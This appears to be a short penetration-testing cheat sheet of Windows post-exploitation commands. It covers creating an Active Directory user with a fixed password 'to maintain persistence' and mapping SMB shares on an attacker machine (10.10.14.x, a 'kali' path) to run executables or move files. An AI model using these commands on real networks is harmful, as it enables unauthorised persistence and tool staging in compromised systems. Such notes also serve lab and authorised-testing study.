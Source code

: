 # General Commands

# Create a user

You have the option to create an active directory user to maintain persistence.

```jsx
dsadd user “cn=Russell Smith,cn=Users,dc=ad,dc=contoso,dc=com” -samid russellsmith -upn russellsmith@ad.contoso.com -fn Russell -ln Smith -display “Russell Smith” -disabled no -pwd “PassW0rd!” -mustchpwd yes
```

# Authenticating for smbserver.py

```bash
$pass = ConvertTo-SecureString 'test' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("virusspec", $pass)

CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali" #optionally append "-Credential $cred" with a PS-Credential
WindPS-2> cd new_disk:
```

You can also do 

```bash
net use \\server /user:domain\username password
New-SmbMapping -RemotePath '\\server' -Username "domain\username" -Password "password"
```